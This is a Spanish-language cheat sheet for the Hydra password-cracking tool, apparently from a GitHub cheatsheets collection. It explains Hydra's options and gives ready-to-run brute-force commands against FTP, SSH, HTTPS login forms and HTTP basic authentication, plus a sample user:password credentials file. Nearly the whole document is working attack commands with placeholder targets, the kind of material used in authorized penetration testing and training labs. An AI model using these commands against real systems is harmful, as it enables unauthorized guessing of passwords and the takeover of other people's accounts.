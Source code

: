 # Hydra Cheat Sheet

## Opciones

- `-s <port>` : Si el servicio está en un puerto diferente por default.
- `-l` : Especificar un usuario.
- `-L <userfile>` : Leer de un archivo listado de usuarios.
- `-p` : Especificar un password.
- `-P <passwordfile>` : Leer de un archivo listado de passwords.
- `-t <#tasks>`: Número de conecciones en paralelo por objetivo.
- `-M <targetsfile>` : Leer de un archivo listado de objetivos.
- `-o <file>` : Guargar el resultado en un archivo.
- `-vV` : Modo verbose, mostrando el inicio de sesión+contraseña para cada intento

## Ejemplos

#### Cracking con Brute Force en FTP Server
```
hydra -t 1 -l admin -P <PATH-TO-PASSWORD.lst> -vV <IP-ADDRESS> ftp
```

#### Cracking con Brute Force en SSH Server
```
hydra -l msfadmin -P <PATH-TO-PASSWORD.lst> -vV <IP-ADDRESS> ssh
```

#### Cracking con Brute Force en WEB Login Server
```
hydra -l none -P <PATH-TO-PASSWORD.lst> <IP-ADDRESS> https-form-post "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password" -t 64
```

#### Ataque de Fuerza Bruta a una Authenticacion Basica
```
hydra -l admin -P <PATH-TO-PASSWORD.lst> -s 80 -f <IP-ADDRESS> http-get
```

#### Cracking con Brute Force en WEB Login Server, enviando 'usuario:password'
```
hydra -C credentials.txt <IP-ADDRESS> https-form-post "/login.php:username=^USER^&password=^PASS^:F=Login failed"

Archivo credentials.txt:
albert:password
juan:mypassword
beto:qwerty
.
.
.
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)